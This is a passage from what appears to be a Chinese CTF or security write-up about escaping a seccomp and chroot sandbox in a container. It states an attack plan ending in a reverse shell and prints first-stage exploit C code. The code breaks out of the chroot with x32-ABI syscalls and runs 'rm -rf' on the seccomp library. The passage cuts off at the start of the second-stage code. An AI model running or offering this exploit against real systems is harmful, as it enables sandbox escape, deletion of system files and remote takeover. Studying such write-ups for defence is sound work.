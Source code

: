 则最终攻击思路为：先绕过 `sccomp` 并跳出 `chroot` 在容器中通过执行任意代码删除所引用的 `/lib64/scf.so` 文件解除 `seccomp` 的syscall限制，再次上传第二段代码直接执行反弹shell指令，拿到容器shell。

EXP文件如下：

```c
// first time code
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>
#include <signal.h>
#include <errno.h>
#include <fcntl.h>
#include <stddef.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/user.h>
#include <sys/prctl.h>
#include <sys/wait.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <unistd.h>
#include<sys/mman.h>
#include<string.h>

void change_root(void)
{
  chdir("/");
  mkdir("abc", 0755);
  syscall((unsigned int)1073741985, (unsigned long)"abc"); // chroot
  for(int i=0;i<20;++i)chdir("..");
  syscall((unsigned int)1073741985, (unsigned long)".");
}

int main(){
        printf("chroot\n");
        // syscall((unsigned)1073741985, (unsigned)".foo");
        change_root();
        printf("success\n");
        size_t pagesize=getpagesize();
        void *region = mmap((void*)0,pagesize,PROT_READ|PROT_WRITE|PROT_EXEC,32|MAP_PRIVATE|64,0,0);
        const char comm[]= "/bin/rm\0-rf\0/lib64/scf.so";
        memcpy(region, comm, sizeof comm);
        const unsigned ptr[] = {region, region+8, region+12, NULL};
        memcpy(region + 64, ptr, sizeof ptr);
        const unsigned* ptr1 = region + 64;
        syscall((unsigned int)1073742344, (unsigned long)ptr1[0], (unsigned long)ptr1, 0); // execve
        return 0;
}


---------------------------------------------
// second time code


#include <stdlib.h>
#include <stdio.h>
#include <stddef.h>
#include <sys/syscall.h>
#include <sys/types.h>
```